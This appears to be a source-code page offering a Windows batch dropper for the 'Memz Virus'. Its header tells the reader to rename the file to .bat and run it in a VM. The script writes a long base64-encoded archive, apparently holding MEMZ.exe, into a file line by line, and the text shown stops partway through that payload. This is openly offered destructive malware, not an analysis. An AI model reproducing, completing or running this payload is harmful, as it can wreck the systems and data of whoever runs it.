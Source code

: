 # Memz Virus. WARNING!! -Im not responsable if this destroy your PC, Open just in safe enviroment VM !!!
# work in windows =change from .txt in .bat 

@echo off

echo UEsDBBQAAAAIAHV36kiQ6IfZcyEAAAA6AAAIAAAATUVNWi5leGXtew10U8e17kg6soUtjACbGGzi>x
echo AxgMyD9Hlm1sY4JkW2AH/wjLP5BgB9k6RhKSjqIfbKcJyBgaqw65tM1NIJckNE1705Tcpi3JJWma>>x
echo OD830Da0TptFSQOpXx7NFSnhmYRbnIRw3jfnyMZpfmCt99b7WauzvM+c2TOz95699+zZIw71t+wl>>x
echo KkIIAxBFQo4QuZjItctJQErWcynk8LTjC44o6o4vaHa6gqw/IGwJ2L1sl93nE0JsJ88Gwj7W5WOr>>x
echo G22sV3Dw+dOnJ2XHaTxj9pZ/yKpcE/Dphr2uz6R3pet3qDdvT3BekurLro+kWuGkdZOry0nHf5Vs>>x
echo VgshdQo1eXHNzrYJ3ChRKpIVKYRo0Vgu4/Jm4aEDsPFV03clIWqikPonahKJK0nqNu2WBtKxk/Vk>>x
echo JZXDKwk5SF82ExJTfImAfogBPnvLCSm9Dl1PFsip+zJ68ZIf4ntDdHnJcYG0V+WeQmJzfsBhD9kJ>>x
echo eXmBjCAL/24BRNKGKV8eRu6jPK1E0g0p/MK44fxAMNBF4mvdHB9X9CX0ArxH6JLXTnUgyVbyhXGV>>x
echo X73Cf5T/naVl6NzAXVpdaDqec0KJ7eLiU6yJxBLQZRxuf1lHWtvcqR1Gsa2tzXlFZyJO6iRtYpoD>>x
echo o9wOMc2EeuC8Ivzn2zrOTtA7l2lrbXPuKjMRMa0I/UPFEfocd94DVJt4wnmQ1kMnxRNGcWhs99uh>>x
echo hbv/Frpxj0W0trkV7tniH/ZYLlrdCZQlvHJYPDHw6tI9lnGre6mY5gElq5hGUO2xxKzOwxLJNA3a>>x
echo GL/Hcuao5Yzkqm1iePyoZYy6mZjGoNuZiK3sThDTRtG4rePWob+0v9Iqpm2mBN3E+cZcLEgNygsw>>x
echo VIdFOitWQOixWME0qOL3l4pHlmM9Rf98zIpxIPk65mH6MVTG4Y6XGbry/nMV4GdrNb7dFm2/+Au6>>x
echo B2xuk5jWi0E2a9QyFpc/9gRoOmMqKhpVoJu4lbFdwA2NH9396meimIuZe6Q3a1vsdtrRPmb8m/j0>>x
echo 68BAVrppxDQ/XRTl4TZFLZdlLlLbKoYvRy3jsWpMhBZsYlouunYPhxVr0COmLUULeDEtRLU4wUaH>>x
echo 0RjzYJs8YGX44l3q2BX0RcMX3Ulnm0RRlIzrsLUOFY/QZb/dZhNPuBXf37Ue9E58f3A9tcllWKdC>>x
echo NtJe6ht3XVbMuPcvMIkzG/oU/YyYxknSzNg9CNvYbDbnzTOhHpvsU3ssjx+1PM6h54VSjD9qeYrA>>x
echo 66zR8Ei0/VC0/XC0/Ui0/flo+3C0/dVo+7Fo++vR9jfFtJNUwyhuh9tB61aQe1Nyvct4/jV1j+Uk>>x
echo BIpJDOjbGXm81Dixe3jHnzFVhT8nGA87HZLr3knnn4y2jw98KoY1bqWY5pQ0TN0oblTqv2WrYstM>>x
echo ZFv6c+nwnKHf6k98i0laO6gwr5TwgQvGX5VNP0dHzPlWf81CExnclXIF6jCvlLCB992EurtEttU2>>x
echo ND+bGucPMATjVv31HphpaJVkrz/C7hFI51bCW+Jy9l6Vc2zgihhOdDNnW0XqIpSkWPw6XNY5tow6>>x
echo KqWY6FafXYHuVhBLMr5tk+Y7TxXK2t8HMmXzTwE19OnQfOqW25a+wFHTbmPEPxiHrdZWp34ebGGV>>x
echo LbV24DXNylV0fOC0U5cDV/vDXy8NFdN98SLdOu6iNmcNavjIwHiCbG2KGy2dwIV7nTTWTyjTSc+h>>x
echo oTFqulK6KdS3uZNskte0Uvnuo970PxTh9/dYDhy1HKigmzwaPgQP2VBGHeUgSJFo+2PR9sclP3n+>>x
echo qOVIkrT7D1DiVHdiGK5STU1/tuCK5M7r17uToE8Sq1XLu1y3QNrlBLvcOVomb3WqmdhSDNj/7DFQ>>x
echo ufRxtOXy25bLp9vHT1vG37Zo5JdTxRvKTeSUmqPPVRHp3YnnOy/FDmIuDTcSQ8RGGszEtKeo3Sza>>x
echo Z/dpQPnSx3v8ytgrDH29MvRJ7Nn424exn+DNrdp/66VPb57xkz+qWi43xQ5InbR9QtUy3iSmHaL6>>x
echo Um6IRzVpm+pasZEPS3EXL+ckH9ljGUNcTHtMYnzZ+Cu95aJTQ4xk/fpW65BlXI9uvIpp6TS2YeCr>>x
echo UpAH2UnhqRtYnffNjR8EcVeIJVMZb9y/8atUM33pFNUMSu+bZdXsZmTVwLsr5lJvPizHjiOUdeGG>>x
echo V3AgkNghlWycVNk4R6x0oAaN2HfQ406ljPcwM+WFZ9smV37SFm0fkxePCLnHcspqk1cfuwXzhurP>>x
echo DLx0YD+V+WKsVkLEJhDjsdKpI4b+FFs6dQAMlK6i/rBBSf0BVpo2pelkyeukzTbUftnW1EoDbfii>>x
echo TVaqTQyPyWqVdHPutOXcqeKaKbrxS++leMa2guJUg2bGT7bYwzTkL98IMdyZOPAGXuasbkV3tCUm>>x
echo pl2ka9uupKLsVVBR9uzMVUz63sC59C91ithVp7g4VD8miW9dT7dF68DwAese8wGru9BdCMfInOIY>>x
echo Uxz/iysw0RX8SElXMMk8deLgaHMniyf2618eGndr3xDl17E3rsRtL51lkmgnpSgm7ROnYgeR9uIw>>x
echo HUJ99TU8L+qPDq0aoxib+MfYN7FSCDU0NqHYXgjxVuzUS6fVVupsH8Ld5kCkoWNDr0F5u38fXu5U>>x
echo gWxTnGrMoqDbahU9x5pipXKDnm1NoG6TTs5X/36ftU5GsGb5HHe4lQhhUihzT8exIaaNS6ddKKM1>>x
echo xoHkRnlMKyrtZDc0u0HKI0wd7S9ryFdlJRzNSmI0Zo9JkWkIvvT4l6QhA3dpVG1Dd+nCZbahrEtV>>x
echo EMUUCeW2xnh4z9B0uiL9utT9kts2SahBCaWjnh/MjNrSO25F9kTFoxp/nqZL7S9rKWWkNn9rG3pn>>x
echo 6MrQaw04ULRDFg1yAN3GjUNjVe6ktXI289d3aaj43j3rpZxjsRMKGnMrEDYoRkzTyrmIxq2QD1Rp>>x
echo 4J76y+vdDIytk2PTYhxTOyaiTutQWIM1bqIHwLhiu9X4+xpb29A4HGXoT7vF7XO7h5jtM/5d29Ed>>x
echo ZTqquqPa7Y0r/3zn+6Cye3j7AnfSbe7pG7vLKlrDuu6yulZleBqGtHZH72xVVq4cufMvt90quejb>>x
echo m7IvD1VnX35FXFxDz9vFddLTKj0HWdP/iWT8/0I5bCLkGGAUMA7QmWX8d/B+wCS/n19FyCcAzU2E>>x
echo pAJYAAdYA3gP+G7UdwDuBzwOeA5wDHACMIL+YcDPAA8D9gJ2AbYBNqDfsUrmcSDO14raBOAA3XGc>>x
echo EnLMAlAjcAAToBlAPesOwN9WE/IYYCfAB9gEqAGUAJYAZgGugFcM9SnACOA5wBhwe1fLPHbFeeUD>>x
echo 6O8hvxhNvPeVe98+wiifVZJnyC8IOT7bMBx9JfpS9OUXCHmRmA71X3k4MVhcEQmqzupI9o7Blw49>>x
echo ceVXkY/F8KWz74qDrx6KvnIo+mH0nf7XiGmij4QvRU+cfVV86pn3qo6odD8nx3UvQpbhh54lR+59>>x
echo 6Qghz44kfvTjFw48AuwZu1b1nv3niqbD33wWY8jm42m39F+JPXIXc+jw2I+v/CbyKQn/99boiSej>>x
echo L0XOZL1XOTj6XuXwB+rhvygH/xr9sKP/k4sPhV95gZhA6ggWc/IIWAxf+c1Zljx16olDT/RfGX4o>>x
echo VNkvHpwRUp09J1IuijgXzOj/5MAjYdVzFx+S+Rz/Ih+Jydmfi+Bw9iWRtDwxMBNFus9rpF8SWFKc>>x
echo PHDhwswLhKwj9zMRkTQ2kkcayfu2nVkXshSVDaTBqpyVNaBDUVoZpVUT0SkNWQOpKMoIM1CNohxk>>x
echo lJGUu00p589/gKJ8lFH+QL3z/PkU5eYblYOagTUoypOMciTlHnL+g9OnTqMcx5/yI2bg9AfnifLn>>x
echo 8we6UVQso2I1qoUp/eS88lO1yswMjCQmjig/ZnadJ7rEROXP5g34UFR+ZuA8iqqXUfk1u0liIhk9>>x
echo r7pJ808gSnp6ehJHRkZGE/GiUs5T9WoG3kdRHWNUw5rdScTfk0hU96qVnzD9p0ZUjzKRHtX7jOo8>>x
echo o2qZN/AECqNjGJ2GmZNEx/ohyMeJqn3qyBhTykT8zEq16odzB76PwmxmBowojJNhNk8fUJHz7ygv>>x
echo MKr7E/t7/MxqhrmHYdbMY5yau8tQPgYwT2kfLOMg6fl35JLih6hy6fErVP86d2A/ipow/fsfUTMJ>>x